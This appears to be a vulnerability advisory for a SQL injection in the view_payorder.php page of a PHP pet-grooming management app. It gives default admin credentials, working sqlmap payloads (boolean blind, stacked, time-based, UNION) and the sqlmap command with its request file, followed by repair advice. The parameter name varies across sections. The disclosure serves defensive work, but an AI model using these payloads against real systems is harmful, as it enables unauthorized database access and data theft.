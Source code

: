 # Pet grooming management view_payorder.php  v.1.0 sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'view_payorder.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "view_payorder.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

#Login or authorization is required to exploit this vulnerability
1、Log in to the system using the default password [mdkhairnar92@gmail.com](mailto:mdkhairnar92@gmail.com): admin
2、By examining the /admin/view_payorder.php code, it was discovered that the sql2 parameter was concatenated in the SQL statement

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- UNION query
- stacked queries

## Vulnerability location:

- 'sql' parameter

## Payload:

```
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=-1' AND 6723=(SELECT (CASE WHEN (6723=6723) THEN 6723 ELSE (SELECT 5877 UNION SELECT 8790) END))-- zPiI
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=-1';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=-1' AND (SELECT 6039 FROM (SELECT(SLEEP(5)))dtfr)-- BPqh
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-1' UNION ALL SELECT CONCAT(0x71626b7071,0x5a654442684e456d614a66686c4b487957764d756951506e6d485952706c716e666365736449726c,0x7178707171),NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT [QUERY],NULL,NULL,NULL,NULL,NULL-- -
```


![image-20250917124758.png](./assets/image-20250917124758.png)


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
POST /admin/view_payorder.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=9mjrub6b6jfcfhk0lv26kugff3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

id=-1*
```

# Attack results


![image-20250917124934.png](./assets/image-20250917124934.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
